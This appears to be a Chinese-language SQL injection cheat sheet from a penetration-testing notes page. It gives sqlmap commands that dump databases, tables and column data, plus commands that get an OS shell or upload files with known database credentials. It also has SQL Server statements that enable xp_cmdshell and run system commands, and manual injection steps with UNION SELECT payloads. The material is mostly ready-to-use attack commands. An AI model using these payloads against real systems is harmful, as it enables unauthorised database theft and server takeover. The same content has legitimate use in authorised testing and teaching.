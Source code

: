 ```yaml
---
sort: 3
---
```


{% raw  %}

# SQL 注入

## 1. sqlmap

### 1.1 GET 注入法：

```
sqlmap -u [url]
```

### 1.2 POST 注入法：

- 首先使用 BP 抓包，将数据保存到一个文件中，如 log.txt
- 使用命令: `sqlmap -r log.txt --dbs`, 即可爆库
- 爆表名: `sqlmap -r log.txt --table -D [database name]`
- 爆列名: `sqlmap -r log.txt --columns -D [database name] -T [table name]`
- 爆数据: `sqlmap -r log.txt --dump -D [database name] -T [table name] -C [column name]`

### 1.3 已知数据库密码时的一些操作

```
sqlmap "mysql://root:root@127.0.0.1/<dbname>" --os-shell  # sqlmap getshell
sqlmap "mysql://root:root@127.0.0.1/<dbname>" --file-write <lcoal file> --file-dest <upload file> # 上传文件
```

### 1.4 sql server 开启 cmd shell

```
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell',1
GO
RECONFIGURE
GO

EXEC master..xp_cmdshell 'whoami'
```

### 1.4 mssql 开启

## 2. 手工注入

- (1) 发现注入点：尝试在数据输入尾部添加', #, --等内容, 如果数据库报错说明存在注入点.
- (2) 使用 order by 1(数字任意)尝试出字段数, 当 order by n 恰好报错时, 则字段数为 n-1. **使用联合查询前必须试探出字段个数!!!**
- (3) 使用联合查询试探可查询字段数: union select 1,2,3,4,5#
  > 作用: 假定可查询字段数为 n, 则在探查数据库信息使用联合查询时, 必须将查询内容凑够 n 个
- (4) 判断数据库信息:
  - 利用内置函数暴数据库信息 : version()版本；database()数据库；user()用户；
  - 不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
        and 1=2 union all select version()
```